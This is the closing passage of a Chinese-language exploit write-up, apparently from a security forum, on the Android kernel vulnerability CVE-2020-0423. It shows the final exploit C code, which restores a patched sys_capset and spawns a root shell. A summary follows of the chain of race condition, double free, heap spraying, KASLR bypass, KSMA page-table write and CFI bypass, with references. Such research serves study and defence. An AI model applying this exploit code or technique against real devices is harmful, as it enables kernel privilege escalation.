 ```
 
/* Calling our patched version of sys_capset */
ret = capset(NULL, NULL);
debug_printf("capset returned %d", ret);
if (ret < 0) perror("capset failed");
 
/* Restoring sys_capset */
debug_print("Restoring SyS_capset()");
memcpy(sys_capset_addr, sys_capset, sizeof(sys_capset));
 
/* Starting a shell */
system("sh");
 
exit(0);

```

总结
==

本漏洞得多次利用 race condition 来实现每个重要的阶段，如控制 w->type 来进行 double free，但由于 w 是堆喷的对象，所以此刻的 double free 虽然 free 掉的同一个内核虚拟地址，但是 free 的其实不是同一个对象，可以认为 free 掉的不是对应的同一个 object， 接下来进入利用阶段，两次 kmalloc 会发生重叠，会申请到同一个内核虚拟地址，此刻利用 sendmsg signalfd 和 seq_operations 来进行堆喷两次，调用 read 来实现读取 seq_start 的地址，绕过内核随机化保护， 然后又利用 double free 触发漏洞，结合 ksma 写入页表一个 block 描述符，修改 freelist 指针，由于 signalfd 的写入限制，所以加入了一个全局 buffer 作为跳板，再通过 sendmsg 和 eventd 的堆喷驻留，最后 write 写入其 count 字段，绕过 cfi 保护，后续的 root 部分就是常规操作了。

 

由于文章新出来没几天，也是自己对篇文章的理解，欢迎讨论和指点。

 

参考  
https://blog.longterm.io/cve-2020-0423.html

 

KSMA: Breaking Android kernel isolation and Rooting with ARM MMU features - ThomasKing  
https://i.blackhat.com/briefings/asia/2018/asia-18-WANG-KSMA-Breaking-Android-kernel-isolation-and-Rooting-with-ARM-MMU-features.pdf

 

Mitigations are attack surface, too - Project Zero  
https://googleprojectzero.blogspot.com/2020/02/mitigations-are-attack-surface-too.html

 

Exploiting CVE-2020-0041: Escaping the Chrome Sandbox - Blue Frost Security  
Part 1: https://labs.bluefrostsecurity.de/blog/2020/03/31/cve-2020-0041-part-1-sandbox-escape/  
Part 2: https://labs.bluefrostsecurity.de/blog/2020/04/08/cve-2020-0041-part-2-escalating-to-root/

[看雪社区年底排行榜，查查你的排名？](https://www.kanxue.com/rank.htm)